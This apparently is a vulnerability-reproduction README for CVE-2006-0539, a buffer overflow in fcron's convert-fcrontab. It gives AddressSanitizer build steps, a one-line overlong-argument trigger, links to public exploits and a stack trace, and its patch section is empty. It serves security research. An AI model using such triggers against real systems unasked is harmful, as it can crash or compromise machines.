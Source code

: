 # CVE-2006-0539

## Experiment Environment

Ubuntu 8.10

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2006-0539/fcron-3.0.0.src.tar.gz
tar -xvf fcron-3.0.0.src.tar.gz
cp configure ./fcron-3.0.0
cd fcron-3.0.0
CC=/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang CXX=/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang++ CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" ./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./convert-fcrontab `perl -e 'print "pi3"x600'`
```

## PoCs

[Fcron Convert-FCronTab Local Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/16467/exploit)

[Fcron 3.0 - Convert-FCronTab Local Buffer Overflow](https://www.exploit-db.com/exploits/27159/)

## Vulnerability Patch

### Root Cause

See [Fcron (convert-fcrontab) allow users to corruption on heap section.](https://www.securityfocus.com/archive/1/archive/1/423697/100/0/threaded) for details.

### Stack Trace

```
......
#9 0x40111caf in syslog () from /lib/libc.so.6
#10 0x0804a5d8 in log_syslog_str (priority=3, msg=0x804ee08 "Could not read ", 'A' <repeats 146 times>, " (truncated)")
at log.c:102
#11 0x0804a739 in log_e (priority=3, fmt=0x804abcf "Could not read %s", args=0xbffff014 "ĐČ\004\bpz\006@0l\001@áŘ")
at log.c:165
#12 0x0804a90c in die_e (fmt=0x804abcf "Could not read %s") at log.c:339
#13 0x0804923a in convert_file (file_name=0x804c8d0 'A' <repeats 200 times>...) at convert-fcrontab.c:153
#14 0x0804936d in main (argc=134523688, argv=0xbffff677) at convert-fcrontab.c:276
```

### Patch

## References
